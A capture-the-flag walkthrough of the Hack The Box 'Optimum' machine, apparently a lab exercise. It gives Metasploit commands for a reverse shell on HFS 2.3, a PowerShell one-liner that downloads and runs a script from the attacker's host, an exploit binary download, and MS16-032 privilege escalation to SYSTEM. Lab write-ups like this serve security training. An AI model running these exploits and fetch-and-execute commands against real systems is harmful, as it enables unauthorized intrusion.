

# Optimum

<figure><figcaption></figcaption></figure>

## Overview

Optimum is an easy machine with focuses on CVE discovery and metasploit.

## Enumeration

### Nmap scan

I started with an nmap scan.

```
...
Discovered open port 80/tcp on 10.10.10.8
...
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

## Initial Foothold

### HTTP

The default webpage does have several links and possible attack vectors, but it also used a framework I've never seen before - HttpFileServer(HFS) 2.3. Running a quick searchsploit yields that there are several vulnerabilities.&#x20;

```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit hfs 2.3 
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                        | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                        | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)             | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                     | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution           | windows/webapps/34852.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

I'll open metasploit and search again so I can easily select it. I chose the second one mainly because it the first exploit didn't look very useful.

```
msf6 > search hfs 2.3                                                                                                                                                                                                                      
                                                                                                                                                                                                                                           
Matching Modules                                                                                                                                                                                                                           
================                                                                                                                                                                                                                           
                                                                                                                                                                                                                                           
   #  Name                                        Disclosure Date  Rank       Check  Description                                                                                                                                           
   -  ----                                        ---------------  ----       -----  -----------                                                                                                                                           
   0  exploit/multi/http/git_client_command_exec  2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390                                                                                             
   1  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution                                                                                                       
                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                           
Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/rejetto_hfs_exec                                                                                                                            
                                                                                                                                                                                                                                           
msf6 > use 1                                                                                                                                                                                                                               
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

I can then set LHOST and RHOST, and then run the command.

```
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.14.18
LHOST => 10.10.14.18
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.18:4444 
[*] Using URL: http://10.10.14.18:8080/sBQfZ3YbDMbkX
[*] Server started.                                       
[*] Sending a malicious request to /
[*] Payload request received: /sBQfZ3YbDMbkX
[*] Sending stage (175686 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\KTDuAEdfJFsV.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.14.18:4444 -> 10.10.10.8:49162) at 2023-01-22 15:14:35 -0600
ls                                                        
[*] Server stopped.                                       

meterpreter > ls                                          
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2023-01-29 00:12:39 -0600  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 06:57:16 -0500  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 07:11:17 -0500  hfs.exe
100444/r--r--r--  34      fil   2023-01-28 23:58:43 -0600  user.txt

meterpreter > cat user.txt                                
REDACTED
```


## Privilege Escalation

To check Windows machines, I discovered the tool Sherlock([https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)) that checks a lot of CVE's against the target machine. I can git clone it and then set up a simple http server in python to start the transfer.

```
┌──(kali㉿kali)-[~]                                                                                                                                                                                                                        
└─$ git clone https://github.com/rasta-mouse/Sherlock.git                                                                                                                                                                                  
Cloning into 'Sherlock'...                                                                                                                                                                                                                 
remote: Enumerating objects: 75, done.                                                                                                                                                                                                     
remote: Total 75 (delta 0), reused 0 (delta 0), pack-reused 75                                                                                                                                                                             
Receiving objects: 100% (75/75), 33.97 KiB | 1023.00 KiB/s, done.                                                                                                                                                                          
Resolving deltas: 100% (39/39), done. 

┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

I also added Find All-Vulns at the end of Sherlock.ps1 to check all of the scripts.&#x20;

In the Windows machine, we can then download and run this via Powershell with the following.

```
C:\Users\kostas\Desktop>powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.18:80/Sherlock.ps1'); Find-AllVulns"
```

The CVE MS16-098 ended up working, and with some help from [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) and another file transfer I am able to run the exploit exe file. There was another possible exploit, which was MS16-032, but it didn't end up working for some reason.

```
C:\Users\kostas\Desktop>Powershell.exe invoke-webrequest -Uri http://10.10.14.18/bfill.exe -OutFile bfill.exe
```

Getting us nt authority\system user and root flag.

### Alternative Metasploit Privilege Escalation

First, we need to background the existing session then mount metasploit's exploit suggester.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/rejetto_hfs_exec) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...                                                         
[*] 10.10.10.8 - 176 exploit checks are being tried...     
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.                       
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 41 / 41               
[*] 10.10.10.8 - Valid modules for session 1:              
============================                               

 #   Name                                                           Potentially Vulnerable?  Check Result             
 -   ----                                                           -----------------------  ------------             
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
```

Look! It's the old exploit. I used it this time and set LHOST and RHOST accordingly and ran.

```
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.18
LHOST => 10.10.14.18
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.18:4444
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\mUFyEr.ps1...
[*] Compressing script contents...
[+] Compressed size: 3747
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]
...
meterpreter > shell
Process 2032 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
